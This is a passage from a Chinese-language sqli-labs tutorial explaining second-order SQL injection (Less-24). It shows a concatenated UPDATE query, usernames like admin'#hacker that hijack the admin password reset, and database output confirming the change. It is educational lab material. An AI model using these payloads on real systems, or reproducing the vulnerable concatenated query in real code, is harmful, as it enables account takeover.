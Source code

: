 再看下更新密码的核心语句：

```sql
UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'
```

这里直接使用单引号拼接了 username 所以当 username 可控的话 ，这里是存在SQL注入的，假设用户注册的 username 的值为：`admin'#`，那么此时的完整语句就为：

```sql
UPDATE users SET PASSWORD='$pass' where username='admin'# and password='$curr_pass'
```

此时就完全改变了语义，直接就修改掉了 admin 用户的密码。

### 步骤演示

常见一个`admin'#`开头的用户名，下面列举的几种都可以，以此类推，很灵活：

```none
admin'#1
admin'#233
admin'#gg
...
```

注册完成后数据库的记录信息如下：

```bash
mysql> select * from users;
+----+---------------+------------+
| id | username      | password   |
+----+---------------+------------+
| 20 | admin'#hacker | 111        |
+----+---------------+------------+
```

成功添加了记录，这里单引号数据库中中看没有被虽然转义了，这是因为转义只不过是暂时的，最后存入到数据库的时候还是没变的。

接下来登录 `admin'#hacker` 用户，然后来修改当前的密码

此时来数据库中查看，可以发现成功修改掉了 admin 用的密码了：

```bash
mysql> select * from users;
+----+---------------+------------+
| id | username      | password   |
+----+---------------+------------+
|  8 | admin         | 233        |
| 20 | admin'#hacker | 111        |
+----+---------------+------------+
```

# **Less-25**

 **Trick with OR & AND (过滤了or和and)**



### 双写嵌套绕过
